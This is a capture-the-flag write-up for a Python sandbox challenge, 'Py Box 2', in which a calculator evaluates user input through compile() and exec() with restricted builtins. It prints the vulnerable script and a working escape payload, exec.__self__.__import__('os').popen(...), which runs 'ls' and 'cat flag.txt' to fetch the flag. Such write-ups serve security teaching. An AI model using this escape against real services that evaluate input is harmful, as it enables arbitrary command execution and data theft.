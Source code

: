 # Py Box 2
> Write-up author: vreshco
## DESCRIPTION:
ehh parah! kemarin programku di hek orang, yaudah ta kasih beberapa restriksi semoga ga kena hek lagi wkwkwkwk.
## HINT:
1. exec.__self__ or compile.__self__
## STEPS:
1. Given a machine host to run via netcat and an python script.
2. Let's try to analyze the python script first.

> SCRIPT GIVEN

```py
__builtins__ = {
    "compile": compile,
    "exec": exec,
}

BLACK_LIST = []


def calculator(txt: str):
    txt = txt.replace("=", "")
    container = {}
    comp = compile(f"result={txt}", "<string>", "exec")
    exec(comp, container)
    return container.get('result')


def check(text):
    if any([i for i in BLACK_LIST if i in text]):
        return False
    return True


with open("logo", 'r') as f:
    print(f.read())

print("aplikasi aritmatika by H3X0S1337")
print("operasi yang bisa digunakan: ")
print("- perkalian '*'")
print("- pembagian '/'")
print("- pertambahan '+'")
print("- pengurangan '-'")
print("- xor '^'")
print("- modulus '%'")
print("- pangkat '**'")
print("- pembagian lantai '//'")
print("contoh pemakaian:")
print("- 1+1 maka akan menghasilkan 2")
while True:
    try:
        user_input = input("masukkan input: ")
        calc = calculator(user_input)
        print(calc)
    except KeyboardInterrupt:
        break

```

3. Based on the script, we know the vuln is at the `exec()`. It uses it to execute arbitrary code entered by the user as a string.
4. This can potentially lead to arbitrary code execution and other security issues.
5. The `calculator()` function takes the user input as a string, then compiles it using `compile()` and executes it using `exec()` to evaluate the expression and obtain the result.
6. This apparoach can be dangerous if the user input contains malicious code or exploits.
7. Based from the hint, to utilize this vuln we can use either **exec.__self__** or **compile.__self__**.
8. For this solution i'm gonna use **exec.__self__**, let's try to list the files or directories inside it.

> COMMAND

```python
exec.__self__.__import__("os").popen("ls").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227161893-4f647142-ec76-43da-a0a3-2aef0450b6c6.png)


9. Great it works! Since there's flag.txt, let's cat that out.

> COMMAND

```python
exec.__self__.__import__("os").popen("cat flag.txt").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227162279-c3ff73c1-34d3-4ef2-bd09-c0310cb9658e.png)


10. Got the flag!

## FLAG

```
TCP1P{using_another_functon__self__to_get__import__}
```
